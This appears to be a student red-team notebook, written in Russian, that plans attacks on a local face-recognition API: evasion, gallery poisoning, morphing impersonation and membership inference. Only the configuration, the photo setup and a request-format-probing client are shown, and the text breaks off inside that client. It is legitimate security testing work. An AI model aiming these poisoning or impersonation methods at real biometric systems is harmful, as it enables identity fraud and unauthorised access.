<a href="https://colab.research.google.com/github/NatShed/MLAttacl_FINAL_PROJECT/blob/main/attack_ml.ipynb" target="_parent"><img src="https://colab.research.google.com/assets/colab-badge.svg" alt="Open In Colab"/></a>

# Атаки на систему распознавания лиц (facerec-lfw)

Ноутбук реализует программную проверку устойчивости  системы распознавания лиц (Docker-контейнер `facerec-lfw`, HTTP API по адресу http://localhost:8000).

**Модель угроз.** Мы (red team): (а) имееv доступ к веб-интерфейсу и HTTP API системы; (б) знаем архитектуру модели — InsightFace buffalo_sc (детектор лиц SCRFD + распознаватель ArcFace/MobileFaceNet); (в) можем загружать изображения и добавлять людей в галерею. Доступ к исходному коду сервера и весам модели у нас отсутствует (чёрный ящик).

| Раздел | Атака | Класс (по курсу) |
|---|---|---|
| 1 | Обход распознавания: искажения + итеративный подбор | evasion, score-based black-box |
| 2 | Отравление галереи лиц | poisoning |
| 3 | Face morphing: имперсонация | impersonation |
| 4 | Перечисление галереи (кто «известен» системе) | membership inference|
| 5 | Измерение FAR/FRR по порогу решения | метрики для раздела «Защита» |


**Этические ограничения.** Тестирование выполняется исключительно на собственной локальной системе; в галерею добавляются только фотографии участников эксперимента, давших согласие. Все результаты сохраняются в каталог `results/` для последующего включения в отчёт.


In [ ]:
# Импорты и рабочие папки
import io, os, json, csv, time, base64, random, re, pathlib, itertools
from urllib.parse import quote
import requests
import numpy as np
from PIL import Image, ImageFilter, ImageEnhance, ImageDraw
import matplotlib.pyplot as plt

BASE = pathlib.Path("results"); EVID = BASE / "evidence"
BASE.mkdir(exist_ok=True); EVID.mkdir(exist_ok=True)
SUMMARY = []   # копилка итогов для сводной таблицы
LAST_RAW = {}  # последний сырой ответ API (для разбора структуры)

def load_img(p):
    return Image.open(p).convert("RGB")

def img_bytes(img, quality=95):
    buf = io.BytesIO()
    img.save(buf, "JPEG", quality=quality)
    return buf.getvalue()

def to_b64(b):
    return base64.b64encode(b).decode()

def save_evidence(name, obj):
    p = EVID / name
    if isinstance(obj, (dict, list)):
        p.write_text(json.dumps(obj, ensure_ascii=False, indent=2), encoding="utf-8")
    else:
        p.write_text(str(obj), encoding="utf-8")
    print("Материал сохранён:", p)

## Шаг 1. Конфигурация

Дружим программу с сервером.

Значения `CONFIG` определяются однократно по следующей процедуре:

1. Открыть веб-интерфейс системы, инструменты разработчика браузера (**F12**), вкладка **Network**, фильтр **Fetch/XHR**.
2. Выполнить операцию «Кто на фото» → «Распознать». В списке появится запрос (например `identify`). Из панелей **Headers** (Request URL), **Payload** (имена полей формы) и **Response** (формат JSON-ответа) взять адрес маршрута и имена полей.
3. Повторить для операции сравнения двух фотографий (verify) и для добавления человека в галерею (people).
4. Токен аутентификации: в Request headers присутствует строка `X-Token`, передаваемая с каждым запросом; её значение копируется в `CONFIG["TOKEN"]`. Ответ сервера 401/403 означает, что токен обязателен. Факт передачи общего токена в открытом виде фиксируется в отчёте как самостоятельная слабость аутентификации.
5. Автоматическая альтернатива: после «Проверки связи» ячейка **«Разведка API»** считывает `/openapi.json` (схема маршрутов публикуется FastAPI по умолчанию) и самостоятельно подставляет в `CONFIG` адреса маршрутов и имена полей.

Если точное имя поля неизвестно, допустимо оставить значение по умолчанию: функция `smart_post` перебирает типовые варианты и сохраняет удачный.


In [ ]:
CONFIG = {
    # --- адреса и поля: подтверждены разведкой (/openapi.json) ---
    "BASE_URL": "http://127.0.0.1:8000",
    "EP_IDENTIFY": "/api/identify",   # POST, multipart -> 200 OK (подтверждено)
    "EP_COMPARE":  "/api/verify",     # попарное сравнение: файлы file1+file2 + threshold (подтверждено)
    "EP_ADD":      "/api/people",     # POST {name, files} (подтверждено)

    # --- токен: GET /api/status вернул token_required=false, поэтому пусто ---
    "TOKEN": "",

    # --- имена полей формы: по схеме POST /api/people = {name, files} ---
    "NAME_FIELD": "name",
    "IMAGES_FIELD": "files",

    # --- порог для verify: серверный verification_threshold=0.3
    # (у identify свой порог 0.6 - берётся из ответа сервера автоматически) ---
    "THRESHOLD": 0.3,

    # ===== участники эксперимента (все фото лежат рядом с ноутбуком) =====
    # атакующий - это ТЫ (me*); ne* - твоя старая самозаливка «Брэд Питт»
    "TEST_PHOTO": "me.jpg",           # чёткое фото атакующего (калибровка и проверки)
    "ATTACKER_PHOTOS": ["me.jpg", "me2.jpg", "me3.jpg", "me4.jpg", "me5.jpg"],
    "ATTACKER_PHOTO": "me.jpg",       # атака 3: морфим с этим портретом
    "OLD_SELF_PHOTOS": ["ne.jpg", "ne2.jpg", "ne3.jpg"],  # профиль «Брэд Питт» (я-жертва, слабый вариант)

    # ===== атака 2: жертва = РЕАЛЬНО ДРУГОЙ ЧЕЛОВЕК (Сталлоне) =====
    "VICTIM2_NAME": "Сталлоне",
    "VICTIM2_PHOTOS": ["st1.jpg", "st2.jpg", "st3.jpg", "st4.jpg"],
    "VICTIM2_TEST": "st_mol.jpg",     # молодой Сталлоне: узнает ли профиль жертву в другом возрасте?
    "VICTIM2_POISON_PHOTOS": ["me2.jpg", "me3.jpg"],  # СВОИ фото для подкладывания жертве
    "PROBE_NAME": "zzz_test_poison",  # расходная запись: проверяем режим сервера (дописывает/замещает)
    # Опция: отравить НАСТОЯЩИЙ профиль Brad_Pitt из базы LFW. Включать (True) ТОЛЬКО если
    # проба показала, что сервер ДОПИСЫВАЕТ фото (иначе фото жертвы из базы будут потеряны):
    "POISON_EXISTING_NAME": "Brad_Pitt",
    "POISON_EXISTING_ENABLED": False,

    # ===== атака 3: морфим ДВУХ РАЗНЫХ людей =====
    "ATTACKER_PHOTO": "me.jpg",
    "VICTIM_PHOTO": "st1.jpg",

    # ===== третий участник (tob*) - для атаки 4 и FAR/FRR =====
    "TOB_PHOTOS": ["tob1.jpg", "tob2.jpg", "tob3.jpg", "tob4.jpg", "tob5.jpg", "tob6.jpg"],

    # ===== контрольные люди ВНЕ базы (sh*, vl*) - для атаки 4 и FAR/FRR =====
    # обычные люди (не знаменитости), которых мы НИКОГДА не зачисляли: в базе LFW их
    # точно нет, поэтому их вердикты в атаке 4 - самый чистый negative control
    "SH_PHOTOS": ["sh1.jpg", "sh2.jpg", "sh3.jpg", "sh4.jpg", "sh5.jpg", "sh6.jpg"],
    "VL_PHOTOS": ["vl1.jpg", "vl2.jpg"],

    "MEMBERSHIP_FOLDER": ".",         # атака 4: сканируем все группы прямо из папки
    "PAIRS_FOLDER": "",               # FAR/FRR теперь строится из групп CONFIG (папка не нужна)
}
print("CONFIG загружен. TEST_PHOTO =", CONFIG["TEST_PHOTO"], "| TOKEN задан:", bool(CONFIG["TOKEN"]))
print("Роли: me* = атакующий | ne* = старая самозаливка | st* = жертва (Сталлоне) | tob* = третий участник | sh*/vl* = контрольные люди вне базы")


CONFIG загружен. TEST_PHOTO = me.jpg | TOKEN задан: False
Роли: me* = атакующий | ne* = старая самозаливка | st* = жертва (Сталлоне) | tob* = третий участник | sh*/vl* = контрольные люди вне базы


### Подготовка иллюстраций №1. Участники эксперимента

Группы фотографий: `me*` — фотографии атакующего; `ne*` — фотографии, ранее зачисленные в галерею как «Брэд Питт» (вспомогательный вариант атаки 2: жертва совпадает с атакующим); `st*` — фотографии жертвы (Sylvester Stallone; `st_mol` — фотография жертвы в молодом возрасте); `tob*` — фотографии третьего участника; `sh*` и `vl*` — контрольные лица, никогда не зачислявшиеся в галерею (negative control для атаки 4).

Ячейка формирует фотосетки и сохраняет их в `results/evidence/`: `photos_me.png`, `photos_bradpitt.png`, `photos_stallone.png`, `photos_tob.png`, `photos_sh.png`, `photos_vl.png`, `photos_overview.png` (сводная схема «кто есть кто»).


me* (атакующий): ['me.jpg', 'me2.jpg', 'me3.jpg', 'me4.jpg', 'me5.jpg']
ne* (старая самозаливка «Брэд Питт»): ['ne.jpg', 'ne2.jpg', 'ne3.jpg']
st* (жертва №1 - Сталлоне): ['st1.jpg', 'st4.jpg', 'st_mol.jpg']
tob* (третий участник): ['tob1.jpg', 'tob2.jpg', 'tob3.jpg', 'tob4.jpg', 'tob5.jpg', 'tob6.jpg']
sh* (контроль вне базы): ['sh1.JPG', 'sh2.JPG', 'sh3.JPG', 'sh4.JPG', 'sh5.JPG', 'sh6.JPG']
vl* (контроль вне базы): ['vl1.JPG', 'vl2.JPG']




Сохранено: results\evidence\photos_me.png




Сохранено: results\evidence\photos_bradpitt.png




Сохранено: results\evidence\photos_stallone.png




Сохранено: results\evidence\photos_tob.png




Сохранено: results\evidence\photos_sh.png




Сохранено: results\evidence\photos_vl.png




Сохранено: results\evidence\photos_overview.png


In [ ]:
# КАРТИНКИ ДЛЯ ОТЧЁТА 1: участники атаки (4 группы фото)
def _nat_key(p):
    # me.jpg, me2.jpg ... — сортировка по числу в имени (me.jpg — первым)
    m = re.search(r"(\d+)", p.name)
    return (p.stem.lower(), int(m.group(1)) if m else 0)

def _gl(pat):
    return sorted(pathlib.Path(".").glob(pat), key=_nat_key)

ME, NE = _gl("me*.jpg"), _gl("ne*.jpg")
ST, TOB = _gl("st*.jpg"), _gl("tob*.jpg")   # st*.jpg ловит и st_mol.jpg
SH, VL = _gl("sh*.jpg"), _gl("vl*.jpg")     # контроль: обычные люди вне базы
print("me* (атакующий):", [p.name for p in ME])
print("ne* (старая самозаливка «Брэд Питт»):", [p.name for p in NE])
print("st* (жертва №1 - Сталлоне):", [p.name for p in ST])
print("tob* (третий участник):", [p.name for p in TOB])
print("sh* (контроль вне базы):", [p.name for p in SH])
print("vl* (контроль вне базы):", [p.name for p in VL])

def photo_grid(paths, title, out_name, cell_w=2.6):
    paths = [pathlib.Path(p) for p in paths if pathlib.Path(p).exists()]
    if not paths:
        print("!! фото не найдены:", title)
        return
    n = len(paths); cols = min(n, 5); nrows = -(-n // cols)
    fig, axes = plt.subplots(nrows, cols, figsize=(cell_w * cols, cell_w * nrows + 0.7),
                             constrained_layout=True)
    axes = np.array(axes).reshape(-1)
    for ax, p in zip(axes, paths):
        ax.imshow(load_img(p)); ax.set_title(p.name, fontsize=9); ax.axis("off")
    for ax in axes[n:]:
        ax.axis("off")
    fig.suptitle(title, fontsize=11)
    out = EVID / out_name
    fig.savefig(out, dpi=150)
    plt.show()
    print("Сохранено:", out)

photo_grid(ME, "Фото атакующего (me*.jpg)", "photos_me.png")
photo_grid(NE, "Старая самозаливка «Брэд Питт» (ne*.jpg)", "photos_bradpitt.png")
photo_grid(ST, "Жертва №1: Сталлоне (st*.jpg; st_mol - молодой)", "photos_stallone.png")
photo_grid(TOB, "Третий участник (tob*.jpg)", "photos_tob.png")
photo_grid(SH, "Контроль вне базы: SH (sh*.jpg)", "photos_sh.png")
photo_grid(VL, "Контроль вне базы: VL (vl*.jpg)", "photos_vl.png")

# общая иллюстрация «кто есть кто» — в отчёт в раздел «Подготовка атаки»
roles = [("атакующий", ME), ("самозаливка «Брэд Питт»", NE),
         ("жертва: Сталлоне", ST), ("третий участник", TOB),
         ("контроль вне базы: SH", SH), ("контроль вне базы: VL", VL)]
allp = [(p, r) for r, ps in roles for p in ps]
if allp:
    cols = min(len(allp), 4); nrows = -(-len(allp) // cols)
    fig, axes = plt.subplots(nrows, cols, figsize=(2.7 * cols, 3.2 * nrows), constrained_layout=True)
    axes = np.array(axes).reshape(-1)
    for ax, (p, role) in zip(axes, allp):
        ax.imshow(load_img(p)); ax.set_title(f"{p.name} — {role}", fontsize=8); ax.axis("off")
    for ax in axes[len(allp):]:
        ax.axis("off")
    fig.suptitle("Участники: me* — атакующий, ne* — самозаливка, st* — жертва, tob* — третий, sh*/vl* — контроль вне базы", fontsize=11)
    fig.savefig(EVID / "photos_overview.png", dpi=150)
    plt.show()
    print("Сохранено:", EVID / "photos_overview.png")


## Шаг 2. Универсальный клиент API

Функция `smart_post` последовательно пробует несколько форматов запроса (multipart/form-data с различными именами поля, JSON с изображением в base64) и фиксирует удачный вариант, поэтому точное имя поля не является критичным. Разбор ответа выполняется эвристически: из JSON извлекаются ключи вида name/similarity/score. Первое выполнение ячейки «Проверка связи» выводит исходный ответ сервера, по которому проверяется корректность конфигурации.


In [ ]:
# --- низкоуровневый слой ---
_MODE = {}  # endpoint -> индекс удачного варианта запроса
FACE_NF_MARKERS = ("не найдено лицо", "no face", "face not found", "лица не найдено")

def _headers():
    h = {}
    if CONFIG.get("TOKEN"):
        h["X-Token"] = CONFIG["TOKEN"]
    return h

def _body_snip(res):
    # кусочек тела ответа сервера: диагноз FastAPI должен быть виден прямо в логе ошибки
    j = res.get("json")
    if isinstance(j, (dict, list)):
        return " " + json.dumps(j, ensure_ascii=False)[:170]
    if isinstance(j, str) and j.strip():
        return " " + j[:120].replace("\n", " ")
    return ""

def _face_nf(res):
    # True, если сервер ответил "лицо не найдено" - формат запроса правильный, дело в фото
    j = res.get("json")
    if j is None:
        return False
    s = json.dumps(j, ensure_ascii=False).lower() if isinstance(j, (dict, list)) else str(j).lower()
    return any(m in s for m in FACE_NF_MARKERS)

def _attempt(label, fn):
    try:
        r = fn()
    except requests.RequestException as e:
        return {"label": label, "ok": False, "status": None, "err": str(e)[:120], "json": None}
    try:
        j = r.json()
        ok = (r.status_code == 200) and isinstance(j, (dict, list))
    except Exception:
        j = r.text[:300]; ok = False
    return {"label": label, "ok": ok, "status": r.status_code, "err": None if ok else "не JSON или не 200", "json": j}

def smart_post(endpoint, images, extra=None, field_candidates=None):
    # отправляет фото (list из bytes) на endpoint, перебирая форматы; возвращает {"json": ...}
    url = CONFIG["BASE_URL"].rstrip("/") + endpoint
    extra = dict(extra or {})
    fields = field_candidates or ("file", "image", "photo", "img", "upload")
    attempts = []
    if len(images) == 1:
        b = images[0]
        for f in fields:
            def mk(f=f, b=b):
                return requests.post(url, files={f: ("photo.jpg", b, "image/jpeg")}, data=extra, headers=_headers(), timeout=60)
            attempts.append((f"multipart, поле '{f}'", mk))
        def mk_url(b=b):
            return requests.post(url, json={**extra, "image": "data:image/jpeg;base64," + to_b64(b)}, headers=_headers(), timeout=60)
        attempts.append(("json {image: dataURL}", mk_url))
        def mk_file(b=b):
            return requests.post(url, json={**extra, "file": to_b64(b)}, headers=_headers(), timeout=60)
        attempts.append(("json {file: b64}", mk_file))
    elif len(images) == 2:
        # compare: threshold кладём в form-данные всегда - лишние поля FastAPI игнорирует,
        # а вот НЕДОСТАЮЩЕЕ обязательное поле даёт 422 "Field required" (частая причина падений)
        aux = {"threshold": CONFIG["THRESHOLD"]}
        for f1, f2 in [("file1", "file2"), ("photo1", "photo2"), ("image1", "image2"),
                       ("img1", "img2"), ("file", "file2"), ("photo", "photo2")]:
            def mk(f1=f1, f2=f2):
                return requests.post(url, files={f1: ("p1.jpg", images[0], "image/jpeg"),
                                                 f2: ("p2.jpg", images[1], "image/jpeg")}, data=aux, headers=_headers(), timeout=60)
            attempts.append((f"multipart файлы '{f1}'+'{f2}'", mk))
        for f in ("files", "images", "photos"):
            def mk(f=f):
                return requests.post(url, files=[(f, ("0.jpg", images[0], "image/jpeg")),
                                                 (f, ("1.jpg", images[1], "image/jpeg"))], data=aux, headers=_headers(), timeout=60)
            attempts.append((f"multipart 2 файла в массиве '{f}'", mk))
        def mk2():
            return requests.post(url, json={"file1": to_b64(images[0]), "file2": to_b64(images[1]),
                                            "threshold": CONFIG["THRESHOLD"]}, headers=_headers(), timeout=60)
        attempts.append(("json b64 file1/file2", mk2))
    else:  # много фото (добавление человека)
        for f in fields:
            def mk(f=f):
                return requests.post(url, files=[(f, (f"p{i}.jpg", b, "image/jpeg")) for i, b in enumerate(images)],
                                     data=extra, headers=_headers(), timeout=60)
            attempts.append((f"multipart список, поле '{f}'", mk))
        for f in dict.fromkeys(list(fields) + ["photos", "images", "files"]):
            def mkj(f=f):
                return requests.post(url, json={**extra, f: [to_b64(b) for b in images]}, headers=_headers(), timeout=60)
            attempts.append((f"json {f}: [b64]", mkj))
        def mkd():
            return requests.post(url, json={**extra, "images": ["data:image/jpeg;base64," + to_b64(b) for b in images]}, headers=_headers(), timeout=60)
        attempts.append(("json images: [dataURL]", mkd))
    order = list(range(len(attempts)))
    if endpoint in _MODE:
        order.remove(_MODE[endpoint]); order.insert(0, _MODE[endpoint])
    results = []
    for i in order:
        lbl, fn = attempts[i]
        res = _attempt(lbl, fn)
        results.append(res)
        if res["ok"]:
            _MODE[endpoint] = i
            return res
